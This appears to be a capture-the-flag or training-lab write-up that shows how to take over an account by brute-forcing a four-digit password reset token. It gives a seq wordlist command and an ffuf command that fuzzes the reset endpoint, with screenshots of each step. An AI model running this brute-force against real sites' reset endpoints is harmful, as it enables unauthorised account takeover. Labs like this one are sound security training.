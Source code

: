 # Brute-Forcing Password Reset Tokens

### Takeover another user's account on the target system to obtain the flag.

In order to exploit the password reset functionallity we must first find the reset endpoint

**Step 1** - Access the Web Application and Reset the Password:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Insert a username and click **Submit**:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Click on **here**:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Get the password reset token endpoint:&#x20;

* You'll get this warning. Click again on submit:

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

* And we got the endpoint:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Brute-force the reset token:

* Create a numeric wordlist with all possible combinations:
  * ```bash
    seq -w 0 9999 > tokens.txt
    ```
*   Use the wordlist to brute-force the token with **ffuf**:

    * {% code overflow="wrap" %}
      ```bash
      ffuf -w ./tokens.txt -u http://SERVER_IP:SERVER_PORT/reset_password.php?token=FUZZ -fr "The provided token is invalid"
      ```
      {% endcode %}

    <figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

**Step 5** - Reset the password:

* Insert the token at the end of the URL:

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

* Change the password:

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

**Step 6** - Retrieve the flag:

* After reseting the password, login into the application with the credentials and retrieve the flag:

<figure><img src="../../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>
